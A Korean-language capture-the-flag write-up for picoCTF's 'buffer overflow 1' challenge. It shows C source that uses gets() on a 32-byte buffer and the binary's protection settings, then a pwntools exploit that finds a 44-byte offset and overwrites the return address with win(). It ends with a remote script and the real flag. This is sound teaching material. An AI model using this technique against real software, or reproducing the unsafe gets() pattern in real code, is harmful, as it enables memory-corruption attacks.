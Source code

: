 # [buffer overflow 1](https://play.picoctf.org/practice/challenge/258?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Control the return address
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB pie executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buf_1/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
<br />

> [!NOTE]
> ```bash
> $ cat flag.txt
> pico{this_is_flag}
> ```

<br />
<br />

소스코드를 보면 `gets(buf)`를 사용하는 것을 볼 수 있습니다. 해당 함수는 `"\n"`를 만날때까지 입력을 받으므로, 스택 버퍼오버플로우가 발생합니다. 이 취약점으로 `RET`을 `win`의 주소로 덮어쓰면 풀리는 간단한 문제입니다.

`RET`의 주소를 조작하려면 버퍼를 `RET` 직전까지 채워야합니다. 그러므로 버퍼에서부터 `RET`까지의 오프셋을 구하겠습니다.
```yaml
$ python3 -q
>>> from pwn import *
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 594
>>> p.sendline(cyclic(100))
>>> p.wait()
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 594)
>>> Corefile("./core.594")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/buf_1/core.594'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xffe84000
    Exe:       '/home/kali/pico/buf_1/vuln' (0x8048000)
    Fault:     0x6161616c
Corefile('/home/kali/pico/buf_1/core.594')
>>> cyclic_find(0x6161616c)
44
```
오프셋은 `44` 입니다. 이후 `RET`을 덮어쓰겠습니다.
```yaml
>>> e = ELF("vuln", checksec=False)
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 661
>>> p.sendline(cyclic(44) + p32(e.sym["win"]))
>>> p.interactive()
[*] Switching to interactive mode
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 661)
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
pico{this_is_flag}
[*] Got EOF while reading in interactive
$
```
<br />
<br />

**remote:**
```python
from pwn import *

context.log_level = "error"

e = ELF("./vuln", checksec=False)
# p = e.process()
p = remote("saturn.picoctf.net", 61574)

p.sendline(cyclic(44) + p32(e.sym["win"]))
p.interactive()
```
```bash
$ python3 test.py
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}$
```


